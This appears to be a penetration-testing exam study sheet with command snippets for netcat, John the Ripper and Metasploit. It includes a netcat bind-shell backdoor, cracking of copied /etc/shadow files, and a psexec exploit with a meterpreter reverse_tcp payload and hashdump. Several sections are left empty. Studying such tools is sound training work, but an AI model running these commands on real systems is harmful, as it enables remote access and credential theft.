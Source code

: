 # Common Tools

## Exam Outcome

Demonstrate competence with common tools including netcat, SSH, Ettercap, p0f, etc...

### netcat

Setting up a Listener:

```
nc -l -p [port]
nc -l -p [2222]
```

Connecting to the Listener:

```
nc [ip_of_listener] [port]
nc 10.10.75.75 2222
```

Create Backdoor on Linux:

```
nc -l [port] -e /bin/sh
nc -l 7777 -e /bin/sh
```

Connect to the backdoor:

```
nc.exe [ip_of_listener] [port]
nc.exe 10.10.75.75 7777
```

### SSH

### Ettercap

### p0f

### Joghn the Ripper

John the Ripper is essentially a password cracking tool.  You can utilize John the Ripper to perform password cracking once you've retrieved password hashes from a target.

First, you need to combine the passwd and shadow files (from a Linux machine).  The following examples assumes you've taken a copy of /etc/passwd and /etc/shadow and moved them to the /tmp directory:

```
./unshadow /tmp/passwd_copy /tmp/shadow_copy > /tmp/combined
```

Running John is trival:

```
./john /tmp/combined
```

### Metasploit

Starting Metasploit:

```
msfconsole
```

Listing Exploits:

```
show exploits
```

Searching Exploits:

```
search type:exploit psexec
```

Acquiring Info on an Exploit:

```
info exploit/windows/smb/psexec
```

Selecting an Exploit to Use:

```
use exploit/windows/smb/psexec
```

Configuring Exploit Settings:

```
set PAYLOAD windows/meterpreter/reverse_tcp
```

Showing Options:

```
show options
```

Configuring Variables:

```
set RHOST [Target IP]
set SMBUser [username]
set SMBPass [password]
set LHOST [source/attacker IP]
```

Launching Exploit:

```
exploit
```

Backgrounding a Session:

```
background
```

Listing Sessions:

```
sessions -l
```

```
sessions -i [session #]
```

Popular Meterpreter Commands:

```
?
sysinfo
getuid
pwd
getpid
ps
hashdump
run hashdump
```



### etc...

